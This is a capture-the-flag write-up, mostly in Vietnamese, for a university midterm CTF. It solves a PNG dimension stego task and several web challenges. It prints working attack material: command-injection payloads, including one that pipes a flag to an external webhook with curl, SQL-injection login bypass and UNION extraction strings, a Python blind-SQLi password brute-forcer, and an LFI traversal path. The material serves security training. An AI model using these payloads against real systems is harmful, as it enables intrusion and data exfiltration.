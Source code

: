 # midterm-test-W1-writeup

## [Forensics] DIMENSION

### Challenge
> Yet Another Stego Challenge<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/657606fdb5faa98550bbdb665f794a44/attachment.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwMH0.ZLzsTA.3lJIkLTyxMF8Pd1n5uvdClmMM6A)

### Solution
- Ở đây đề bài cho 1 file ảnh với kích thước `0x0` kết hợp cùng tên đề bài mình đoán sẽ sửa 8 byte chiều dài và rộng để khôi phục lại bức ảnh ban đầu.
- Tool mình sử dụng ở đây là [png-dimensions-bruteforcer](https://github.com/cjharris18/png-dimensions-bruteforcer), điều chỉnh range bruteforce lên xíu ta sẽ thu được kết quả.
![](2023-07-23-16-14-05.png)
![](2023-07-23-16-14-49.png)
```
Flag: W1{d1meNsiOn_i5_cO0l_r19ht?}
```

## [Web] HEAD1

### Challenge
> [http://45.122.249.68:20018/](http://45.122.249.68:20018/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/8f80fff2c153912fc5322388b2b69332/head1.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNn0.ZLyUUw.qKuUDVqRmiQZwgtJUrvXOP3X2ZQ)

### Solution
```php
<?php

if (strpos($_SERVER['REQUEST_URI'], '_')) {
    die("no no no");
}

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_POST['input_data']);
    echo $output;
}

show_source(__FILE__);
```
- Ở bài này source code khá đơn giản đầu tiên là mình phải bypass được ký tự `_` trong `input_data`, thì ở đây đơn giản ta chỉ cần **URL encode** ký tự `_` sẽ bypass được điều kiện đầu tiên.
- Sang với điều kiện thứ 2, trong đầu mình đặt ra 1 câu hỏi là làm sao có thể truyền cùng lúc data cho `$_GET` và `$_POST`, giải pháp là ta sẽ sử dụng lệnh `curl` với option `-d` hoặc có thể gửi trực tiếp request thông qua `BurpSuite`

![](2023-07-23-10-06-39.png)
- Câu lệnh hoàn chỉnh như sau: `curl -d input_data=%3Bls%20%2F http://45.122.249.68:20018/\?input%5fdata\=`
- Request sẽ được gửi dưới dạng như sau
```http
POST /?input%5fdata= HTTP/1.1
Host: 45.122.249.68:20018
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

input_data=%3Bls%20%2F
```
- Kết quả nhận được là
![](2023-07-23-10-14-34.png)

```
Flag: W1{ez_head1_huh}
```

## [Web] HEAD2

### Challenge
> [http://45.122.249.68:20019/](http://45.122.249.68:20019/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/a6750a769d391094b4fa05b349cea45e/head2.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNH0.ZLyglw.YagF13lszTqadAdn95aq2a9FKK8)

### Solution
```php
<?php

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_GET['input_data']);
    // echo $output;
}

show_source(__FILE__);
```
- Ở bài này thì ta truyền vào được `OS Command` nhưng câu hỏi đặt ra là *Làm sao để đọc được kết quả ra đây?*
- Thì ở đây đầu tiên ta kiểm tra thấy sever không chặn kết nối ra ngoài, vậy nên giải pháp ở đây sẽ là đọc file và gửi nó ra ngoài Internet và bắt lại là xong.
- Payload: `; echo $FLAG | curl https://webhook.site/bb145fec-1626-4da3-b695-7cc86b11e295 --data-binary @-;`

```
Flag: W1{webhook_not_so_bad_huh?}
```

## [Web] DEJAVU

### Challenge
> Bài này quen quen 🐳 <br/>
> [http://45.122.249.68:20017/](http://45.122.249.68:20017/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/e68f2b74721ee7ce9863f1b983508161/dejavu.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwM30.ZLykUA.6cORsdHqk08qta_RVa7jUtuBp2s)

### Solution
- Bài này khá tương tự với 1 bài đã giải trong traning, cơ bản **flag** gồm 3 phần nằm hết ở database.
![](2023-07-23-10-56-15.png)
- Sơ qua về trang web thì ở trang `index.php` sẽ cung cấp cho ta 1 form login và qua file `login.php` khi ta đăng nhập thành công sever sẽ redirect qua `/news.php`. Ở dòng 13 ta có thể thực hiện **SQL Injection** để bypass qua phần login.
![](2023-07-23-10-58-50.png)
- Có 1 chú ý là ở file `news.php`, sever sẽ kiểm tra xem `$_SESSION['username']` của chúng ta có phải là `admin` hay không nên payload để **SQLi** phần login sẽ như sau:
    - `username`: `admin`
    - `password`: `' UNION SELECT username,password FROM users WHERE username='admin`
- Ở `/news.php` có 1 đoạn code khá *nhạy cảm* giúp chúng ta có thể truyền vào biến `$_GET['name']` qua đó có thể đọc nội dung từ database.
![](2023-07-23-11-04-09.png)
- Payload cho **Part 1**: `' UNION SELECT flag, flag FROM secret -- `
![](2023-07-23-11-07-36.png)
- Ở **Part 2** thì flag nằm trong 1 bảng ta chưa biết tên nên ta có thể sử dụng payload `' UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS -- ` để in ra thông tin bao gồm tên các bảng và cột.
![](2023-07-23-11-09-50.png)
- Payload cho **Part 2**: `' UNION SELECT flag_5959595959408498_5959595959408498, flag_5959595959408498_5959595959408498 FROM secret_8489498498112318_8489498498112318 -- `
![](2023-07-23-11-10-34.png)
- Ở **Part 3** thì flag là mật khẩu của tài khoản `admin`, ở đây cách để khai thác sẽ là `bruteforce`. Xoá cookie đang có để reset `$_SESSION` rồi bruteforce password từ trang `login.php`. Script bruteforce như sau: *(ban đầu mình bruteforce theo kiểu truyền thống thì độ phức tạp khá lớn, hết giải có người anh chỉ điểm nên mình áp dụng binsearch giúp giảm độ phức tạp đi khá nhiều)*
```py
import requests

# charset = string.ascii_letters + string.digits + string.punctuation
url = "http://45.122.249.68:20017/login.php"


def check(pos, operator, mid):
    data = {
        "username": f"admin' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username = 'admin'), {pos}, 1)) {operator} {mid} -- ",
        "password": "abc",
    }
    r = requests.post(url, data=data)
    return r.url == "http://45.122.249.68:20017/news.php"


def bin_search(pos):
    # Giới hạn trên mình tự tăng bằng tay vì trong flag có thêm icon nên mình sẽ tăng từ từ.
    l, h = 0, 262144
    while h - l > 1:
        m = l + h >> 1
        if check(pos, ">", m):
            l = m
        else:
            h = m
    return chr(h) if check(pos, "=", h) else None


passwd = ""
found = False
while not found:
    found = True
    c = bin_search(len(passwd) + 1)
    if c:
        passwd += c
        found = False
        print("Password: ", passwd)
        if c == "}":
            break
```
![](2023-07-23-15-58-12.png)
```
Flag: W1{part1_part2_part③_ⓓⓔⓙⓐⓥⓤ_福🐳😁}
```

## [Web] SIMPLE STUFF

### Challenge
> Trang báo này đăng nhiều tin hay phết, dù là toàn gen từ ChatGPT... nhưng mà khoan đã, hình như trang web này có vấn đề gì đó... Bạn có thể tìm ra vấn đề của trang web này không? <br/>
> [http://45.122.249.68:20020/](http://45.122.249.68:20020/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/17d67af31ce59c474ee7f8f8aabc8a39/simple_stuff.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjExNX0.ZL0AJQ.SqIYeU2j6t4AtHEcFTfgnBPKqg8)

### Solution
- Sơ qua về source code thì ở `Dockerfile` của backend thì ta thấy flag nằm ở `/flag.txt`, `Ctrl+Shift+F` thì thấy nội dung của file được sử dụng ở `admin/index.php` vậy thì trước tiên ta cần truy cập được endpoint này.
- Ở file `index.php` của backend ta có thể thấy `$_GET["id"]` được nối chuỗi trực tiếp vào `articles/news` và đoạn code còn sử dụng 1 hàm khá nguy hiểm là `include()`
![](2023-07-23-17-44-00.png)
 nên ta có thể `LFI` đến endpoint `admin/index.php` thông qua payload `?id=../../../admin/index.php`
 ![](2023-07-23-17-46-46.png)
 - Nội dung của file `/flag.txt` được **XOR** với `username` và gán kết quả vào biến `$_SESSION["id"]`
 ![](2023-07-23-18-22-18.png)
 - Giải thích sơ qua về hàm `do_xor`, hàm này thực hiện **XOR** 2 chuỗi nếu `$str_2` có độ dài chưa bằng `$str_1` sẽ thêm `=` vào cuối `$str_2` tới khi 2 chuỗi bằng độ dài. Hàm thực hiện **XOR** lần lượt từng ký tự và nối vào `$result` và dùng `-` để ngăn cách giữa các kết quả.
- Vậy ở đây cần thực hiện `SQLi` để có được `$_SESSION["id"]` rồi thực hiện `reverse XOR` và lấy được **flag**.
